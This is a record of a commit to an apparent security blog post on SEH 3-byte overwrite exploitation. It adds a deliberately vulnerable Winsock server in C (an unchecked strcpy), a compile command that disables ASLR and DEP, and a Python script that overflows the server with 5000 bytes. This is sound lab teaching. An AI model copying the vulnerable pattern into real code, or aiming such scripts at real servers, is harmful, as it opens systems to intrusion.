

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md, in a window 1280 px wide and 1400 px high, scrolled down 453 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md

````diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
@@ -26,3 +26,120 @@
 Normal SEH Overwrites payload structure: offset + nSEH + SEH + shellcode + random bytes
 
 3-byte SEH Overwrites payload structure: padding + shellcode + padding + longjump + nSEH + SEH with NULL-byte
+
+This may seem hard at first; however, it is easier than expected.
+
+## Tools
+
+For this post, the tools that are going to be used are the sames as the one in the last post.
+
+## Application
+
+The vulnerable binary that will be used is a modification of an original [server](https://itandsecuritystuffs.wordpress.com/2014/03/26/understanding-buffer-overflow-attacks-part-2/), by Miguel Ercolino.
+
+### Code
+
+```c
+    #include<stdio.h>
+    #include<string.h>
+    #include<winsock2.h>
+    #pragma comment(lib, "ws2_32.lib") //Winsock Library
+
+    //Vulnerable Function using strcpy
+    int vulnerable_function(char *input)
+    {
+    char buffer[152];
+    strcpy(buffer,input);
+    return 1;
+    }
+
+    //Main Function
+    int main()
+    {
+    WSADATA wsa;
+    SOCKET master , new_socket;
+    struct sockaddr_in server, address;
+    int addrlen, valread;
+
+    //Size of the receive buffer
+    char *buffer;
+    buffer = (char*) malloc((1024 + 1) * sizeof(char));
+    WSAStartup(MAKEWORD(2,2),&wsa);
+
+    //Create a socket
+    master = socket(AF_INET , SOCK_STREAM , 0 );
+    printf("[+] Socket created!\r\n");
+
+    //Prepare the sockaddr_in structure
+    server.sin_family = AF_INET;
+    server.sin_addr.s_addr = INADDR_ANY;
+    server.sin_port = htons( 1762 );
+
+    //Bind
+    bind(master ,(struct sockaddr *)&server , sizeof(server));
+
+    //Listen for incoming connections
+    listen(master , 1);
+
+    //Accept the incoming connection
+    puts("[*] Waiting for incoming connections!");
+    addrlen = sizeof(struct sockaddr_in);
+    new_socket = accept(master , (struct sockaddr *)&address, (int *)&addrlen);
+    printf("[+] New connection , socket fd is %d , ip is : %s , port : %d" , new_socket , inet_ntoa(address.sin_addr) , ntohs(address.sin_port));
+
+    valread = 1;
+    //Receiving Loop
+    while(valread != 0)
+    {
+    valread = recv(new_socket, buffer, 1024, 0);
+    if ( valread == 2) //Server close the connection when a return is send from the client
+    {
+    closesocket( new_socket );
+    exit(0);
+    }
+    buffer[valread]=' ';
+    vulnerable_function(buffer);
+    printf("%s:%d – %s \n" , inet_ntoa(address.sin_addr) , ntohs(address.sin_port), buffer);
+    send( new_socket , buffer , valread , 0 );
+    }
+    closesocket(new_socket);
+    WSACleanup();
+    return 0;
+    }
+```
+
+### Compilation
+
+```c
+i686-w64-mingw32-gcc server.c -o server.exe -lws2_32 -Wl,--no-dynamicbase,--no-nxcompat
+```
+
+This compilations flag will compile the binary without proctections; however, the base address will have a NULL-byte.
+
+# Time to pwn!
+
+After the server has already been launched, a small PoC script is generated:
+
+```python
+import socket
+import sys
+import struct
+
+host = sys.argv[1]
+
+buffer = "A" * 5000
+
+z = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+z.connect((host, 1762))
+
+print "[*] Sending Payload!"
+
+z.send("%s\r\n" %buffer)
+
+z.close()
+```
+
+After this script is executed against the server, Immunity catches an exception:
+
+![](/assets/img/SEH-NULL/2.png)
````
